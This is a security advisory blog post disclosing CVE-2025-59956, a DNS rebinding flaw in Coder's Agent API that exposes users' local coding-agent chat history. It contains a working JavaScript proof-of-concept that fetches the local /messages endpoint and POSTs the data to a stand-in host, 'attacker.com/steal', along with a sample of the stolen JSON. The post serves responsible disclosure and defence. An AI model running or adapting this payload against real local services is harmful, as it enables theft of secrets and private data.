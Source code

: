 ```yaml
---
layout: post
title: "Coder's Agent API Exposes User Chat History Via DNS Rebinding Attack"
date: 2025-09-19
categories: [dns-rebinding, security, api, llm]
excerpt: "A DNS rebinding vulnerability in Coder's Agent API allows remote attackers to exfiltrate a user's entire local message history, which may contain sensitive data like secret keys and intellectual property."
image: /assets/og/2025-09-19-coder-chat-exfiltration.png
---
```


**Author:** Evan Harris  
**Affected Component:** Coder's Agent API  
**CVE**: CVE-2025-59956  
**CVSS 3.1 Score**: 6.5 (Medium) - CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:N/A:N  

# Overview 
Coder's Agent API is an open source HTTP API for Claude Code, Goose, Aider, Gemini, Amp, and Codex. 

MCPSec found a DNS rebinding vulnerability in the Agent API that allows remote attackers to exfiltrate a user's Claude Code message history. 

Coder fixed this issue in release v0.4.0. Agent API users should update to this version, or later. 

# Impact 
Attackers gain full GET access to the /messages endpoint served by the Agent API. 

This allows for the unauthorized exfiltration of sensitive user data, specifically local message history which can include secret keys, file system contents and intellectual property the user is working on locally. 

DNS rebinding can happen within a few seconds once connected to a malicious web server. 

## Proof of Concept 

Take the following assumptions: 
- The victim machine is running the Agent API. 
- The victim navigates to a malicious website. 
- The website executes a DNS rebinding attack to manipulate the victim's web browser to interact with the vulnerable Agent API on the attacker's behalf. 

After the DNS rebinding has been completed, an attacker can consume the locally served /messages endpoint. A victim's entire chat history with the Agent API can be exfiltrated to an attacker's server. 

MCPSec performed a proof of concept attack via the following: 
1. Deploy a DNS rebinding application (e.g. Singularity of Origin). 

2. Construct a payload served by a malicious website to obtain and exfiltrate data.

This JavaScript code, served from the malicious site, fetches the message history and sends it to the attacker.
```javascript
const AgentAPI = () => {
  function attack(headers, cookie, body) {
    fetch('http://localhost:3284/messages', {
      method: 'GET',
      mode: "cors",
    }).then(response => {
      const ATTACKER_SERVER = 'https://attacker.com/steal'
      response.json().then(victimMessageHistory => {
        fetch(ATTACKER_SERVER, {
          method: 'POST',
          headers: {
            'Content-Type': 'application/json',
          },
          body: JSON.stringify(victimMessageHistory)
        }).then(r => {
          console.log("attacker server response", r)
        }).catch(e => {
          console.error('failed to post', e)
        })
      }).catch(e => {
        console.error('failed to parse response ', e)
      })
    }).catch(e => {
      console.error("failed to get messages", e)
    })
  }

  // Invoked to determine whether the rebinded service
  // is the one targeted by this payload. Must return true or false.
  async function isService(headers, cookie, body) {
    let controller = new AbortController();
    let signal = controller.signal;
    return timeout(1000, fetch(`http://localhost:3284/docs`, {
        mode: 'no-cors',
        credentials: 'omit',
        signal
      }), controller)
      .then(response => {
        return true;
      })
      .catch(e => {
        return (false);
      })
  }

  return {
    attack,
    isService
  }
}

Registry["AgentAPI"] = AgentAPI();
````

The /messages endpoint is being served on the victim's local machine, and responds with their chat history when queried. 

3. The attacker must run a data collection server that will receive a POST request. The contents of the POST request should be the response from the victim's Agent API /messages endpoint. 

On the victim machine, the Agent API was prompted to checkout the local file system. This is what was sent to the attacker's data collection server: 

The following is an example of the JSON data stolen from a victim who had asked the agent about their local filesystem.

```json
{
  "$schema": "http://localhost:3284/schemas/MessagesResponseBody.json",
  "messages": [{
    "id": 0,
    "content": "╭───────────────────────────────────────────────────╮ \n│ ✻ Welcome to Claude Code! │ \n│ │ \n│ /help for help, /status for your current setup │ \n│ │ \n│ cwd: /home/evan/Downloads │ \n╰───────────────────────────────────────────────────╯ \n \n ※ Tip: Press Esc twice to edit your previous messages ",
    "role": "agent",
    "time": "2025-07-25T11:20:04.988043205+02:00"
  }, {
    "id": 1,
    "content": "Hello, agent!",
    "role": "user",
    "time": "2025-07-25T13:11:16.699082236+02:00"
  }, {
    "id": 3,
    "content": "tell me about my filessytem",
    "role": "user",
    "time": "2025-07-25T13:14:51.120102556+02:00"
  }, {
    "id": 4,
    "content": "● I'll explore your filesystem to show you what's in your current directory \n and its structure. \n \n● List(.) \n ⎿ Listed 1048 paths (ctrl+r to expand) \n \n● Your Downloads directory contains a wide variety of files: \n \n Documents & PDFs [REDACTED_FOR_MY_OWN_SECURITY] The directory appears to be a typical developer's Downloads folder with a \n mix of tools, documents, and research materials, particularly focused on \n AI/ML security research.",
    "role": "agent",
    "time": "2025-07-25T13:15:10.681040365+02:00"
  }]
}
```
## Recommended Mitigations

### For Users (Immediate)

  - **Update to Agent API version v0.4.0 or later immediately.** This version contains the fix for the vulnerability.

### For Developers (Long-term)

  - **Implement robust Host header validation** for all locally served HTTP APIs to prevent DNS rebinding.
  - **Implement CSRF protection** to prevent other forms of cross-origin attacks.
  - **Add security warnings** in documentation for tools that expose local network services.

This vulnerability was reported to the Coder team through responsible disclosure practices. Coder responded quickly to patch the issue.

## Disclosure Timeline

  - **2025-07-25**: Initial vulnerability report submitted to Coder.
  - **2025-07-25**: Coder acknowledges receipt of report.
  - **2025-07-29**: Coder indicates they were able to reproduce and validate the attack scenario.
  - **2025-08-13**: Vulnerability was patched.
  - **2025-08-21**: Coder decided to award a security bounty for the report.
  - **2025-09-09**: Mutually agreeable advisory publication date agreed upon.
  - **2025-09-19**: Security advisory released.

## Conclusion

The DNS rebinding vulnerability in Coder's Agent API demonstrates a critical security challenge for the growing ecosystem of local AI-powered developer tools. While these tools offer powerful capabilities, they must be built with a security-first mindset to protect against web-based threats.

Shout out to the Coder team for their prompt and professional response in patching this vulnerability. All users of the Agent API should update to the latest version to ensure they are protected.

## References

  - [Patched Release (v0.4.0)](https://github.com/coder/agentapi/releases/tag/v0.4.0){:target="\_blank"}
  - [CVE-2025-59956 Details](https://nvd.nist.gov/vuln/detail/CVE-2025-59956){:target="_blank"}
